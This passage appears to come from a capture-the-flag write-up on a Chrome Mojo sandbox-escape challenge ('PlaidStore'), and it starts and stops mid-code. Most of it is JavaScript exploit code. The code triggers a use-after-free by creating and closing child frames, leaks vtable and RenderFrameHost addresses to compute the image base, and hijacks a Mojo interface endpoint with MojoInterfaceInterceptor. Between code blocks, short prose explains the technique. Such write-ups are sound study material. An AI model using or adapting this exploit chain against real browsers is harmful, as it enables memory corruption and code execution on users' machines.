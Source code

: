 ```javascript
  });
  //send messgaes
  setTimeout(() => ptrs.map((p) => {
    p.storeData("exp", new Array(0x10).fill(0).map((value, index) => index));
    p.getData("exp", 0x10);
  }), 2000);
} else {
  //create a child frame
  var frames = new Array(4).fill(null).map(() => allocate_rfh());
  //close a child frame
  setTimeout(() => frames.map((f) => deallocate_rfh(f)), 15000);
}
setTimeout(() => window.location.reload(), 16000);
```

According to other write-ups, I found that the blink provides an object named `MojoInterfaceInterceptor` which can intercept all the transfers of mojo endpoints. It means that we can create an instance of `MojoInterfaceInterceptor` in the parent frame and hijack the remote endpoint of the interface during the transfer in the child frame. 

After hijacking, the remote endpoint will belong to both the child and parent so when the child is closed this remote point will not be released and we can trigger this UAF steadily. 

There is a code snippet:

```javascript
OOB()
.then((addr_array) => {
    //There is no work left to the child frame.
    if(addr_array == "child")   return Promise.reject("child");
    //display the addresses leaked by OOB();
    vtable_addr = addr_array[0];
    RFH_addr = addr_array[1];
    if (typeof(vtable_addr) != "undefined"){
        console.log("[+] The address of vtable: " + tohex64(vtable_addr));
        var image_base = [];
        image_base[0] = vtable_addr[0] - 0x9fb67a0;
        image_base[1] = vtable_addr[1];
        console.log("[+] The address of image base: " + tohex64(image_base));
        console.log("[+] The address of RFH: " + tohex64(RFH_addr));
    }
    else throw new Error("[!] fail to leak!");

    return new Promise((resolve, reject) => {
        //register the InterfaceInterceptor for the process scope in parent
        var interceptor = new MojoInterfaceInterceptor(victim_interface_name, "process");
        var plaid_store_ptr;
        interceptor.oninterfacerequest = (e) => {
            //hijack!!!
            interceptor.stop();
            plaid_store_ptr = new blink.mojom.PlaidStorePtr(e.handle);
            resolve(plaid_store_ptr);
        };
        //start to intercept all the transfer of interface endpoint
        interceptor.start();
        //after registering the interceptor, we notify the child frame
        //to create two new endpoints and transfer them
        //and hijack the remote endpoint during the transfer 
        window.frames[0].postMessage("UAF", "*");
    });
})
//when this section of code is executed, it means that we've already get the 
//victim message pipe in parent frame and we can release the child frame to trigger the UAF
.then(child_mojo_ptr => {
    //after getting the interface endpoint from the child frame
```